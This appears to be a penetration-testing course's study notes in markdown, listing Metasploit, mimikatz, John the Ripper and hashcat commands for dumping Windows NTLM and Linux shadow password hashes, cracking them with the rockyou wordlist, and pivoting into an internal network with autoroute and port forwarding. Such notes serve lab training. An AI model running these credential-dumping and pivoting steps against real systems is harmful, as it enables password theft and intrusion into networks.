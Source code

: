 ## Dumping And Cracking
### Dumping and Cracking NTLM Hashes Windows
- SAM database
- LM and NTLM
- hashdump in metasploit
- mimikatz
- jhon the ripper
- hashcat 
- nmap and take access of the system
- sysinfo
- getuid
- getprivs
- pgrep lsass
- migrate
- hashdump
- nano hashes.txt
- paste as it is
- john --list=formats
- john --format=NT hashes.txt --wordlist=
- hashcat
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- hashcat -m 1000 -a 3 hashes/txt /usr/share/wordlists/rockyou.txt 

### Dumping and Cracking Linux Password hashes
- /etc/shadow
- nmap
- identify use set run
- cat /etc/shadow
- ctrl+z
- sessions
- sessions -u 1
- search hashdump
- use set run
- cat the content of the loot file 
- exit
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- jhon --format=sha512crypt <LOOT_FILE> --wordlist=/usr/share/wordlists/rockyou.txt
- hashcat -a3 -m 1800 <LOOT_FILE> <wordlists>
-
## Pivoting Lesson
### Pivoting
- nmap -sV <target-ip-1>
- search rejetto 
- use set run
- sysinfo 
- getuid
- ipconfig
- run autoroute -s <add-subnet> like this 10.0.29.0/20
- run autoroute -p
- run arp_scanner -r 192.168.89.0/24 for the internal network scan
- background
- search portscan
- use set run
- sessions 1
- portfwd add -l 1234 -p 80 -r <target-ip-2>
- new terminal
- nmap -sV -p1234 localhost
- in current metasploit
- background
- use 1